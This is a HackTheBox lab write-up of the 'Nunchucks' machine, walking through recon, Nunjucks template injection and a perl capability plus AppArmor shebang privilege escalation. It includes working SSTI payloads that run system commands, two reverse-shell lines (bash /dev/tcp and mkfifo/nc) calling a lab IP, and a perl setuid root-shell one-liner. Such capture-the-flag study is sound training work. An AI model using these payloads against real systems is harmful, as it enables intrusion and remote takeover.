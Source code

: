 ```yaml
---
title: Nunchucks
tags:
  - HackTheBox
  - Easy
  - Linux
  - SSTI
  - Nodejs
  - Capabilities
  - AppArmor
  - Perl
---
```

![](Pasted%20image%2020241113095057.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.122 nunchucks.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- nunchucks.htb > sC.txt

[redacted]
PORT    STATE SERVICE
22/tcp  open  ssh
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open  https
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

So I took a look at the webpage:

![](Pasted%20image%2020241113095424.png)

Inspecting the source code I discovered the `/signup` section, but it's currently unavailable:

![](Pasted%20image%2020241113095638.png)

So I decided to check for virtual hosts enumeration with [Wfuzz 🐙](/notes/tools/wfuzz.md):

```shell
wfuzz -H "Host: FUZZ.nunchucks.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 30587 https://nunchucks.htb

[redacted]
=====================================================================
ID           Response   Lines    Word       Chars       Payload              
=====================================================================

000000081:   200        101 L    259 W      4028 Ch     "store"
```

So I added the new vhost and visited it:

![](Pasted%20image%2020241113102749.png)

Checking Wappalyzer, it seems that the server is using Node.js.

### Exploitation

If we check [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect), we can find a NUNJUCKS SSTI:
- More detailed in [disse.cting](https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)

```shell
{{7*7}} = 49
{{foo}} = No output
#{7*7} = #{7*7}
{{console.log(1)}} = Error
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
# revshell
{{range.constructor("return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.14.24/666 0>&1\"')")()}}
```

I got errors executing the upper payloads:

![](Pasted%20image%2020241113104255.png)

So I escaped the quotes:

```shell
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@gitblanc.com"}
# revshell
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('mkfifo /tmp/fmkltf; nc 10.10.14.24 666 0</tmp/fmkltf | /bin/sh >/tmp/fmkltf 2>&1; rm /tmp/fmkltf')\")()}}@gitblanc.com"}
```

![](Pasted%20image%2020241113104430.png)

![](Pasted%20image%2020241113105307.png)

> I got a reverse shell :D and can read user flag

![](Pasted%20image%2020241113105248.png)

![](Pasted%20image%2020241113105431.png)

## Privilege escalation

Enumerating the filesystem we see that `perl` has setuid capabilities set:

```shell
getcap -r / 2>&1 | grep -v 'Operation not permitted' | grep -v 'Operation not supported'

[redacted]
/usr/bin/perl = cap_setuid+ep
```

So I checked [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#suid):

```shell
which perl
/usr/bin/perl

# Then
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

If we now try to read the `/etc/shadow` file we can't even with the `setuid` enabled:

```shell
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cat /etc/shadow";'
cat: /etc/shadow: Permission denied
```

So I checked the output of the `whoami` command:

```shell
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
```

I tried to read the `root.txt` flag but had no permissions:

```shell
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cat /root/root.txt";'
cat: /root/root.txt: Permission denied
```

This has to be an AppArmor Profile stablished for perl. If we perform some enumeration:

```shell
ls /etc/apparmor.d/

[redacted]
-rw-r--r--   1 root root   442 Sep 26  2021 usr.bin.perl
```

There is a profile for perl :/

Inspecting the root path, I found a script in `/opt`:

![](Pasted%20image%2020241113110849.png)

```perl
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```

We can see that the script has the `setuid` set to 0, but we cannot make any changes to the script. 

I checked the Apparmor version:

```shell
apparmor_parser --version
AppArmor parser version 2.13.3
```

So I searched in Google for "*Apparmor bugs*". I found the following [shebang bug](https://bugs.launchpad.net/apparmor/+bug/1911431) in Launchpad, so I created a script that executes a shell as root:

```perl
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";
```

> I executed it and became root. Got root flag!

![](Pasted%20image%2020241113111954.png)

==Machine pwned!==



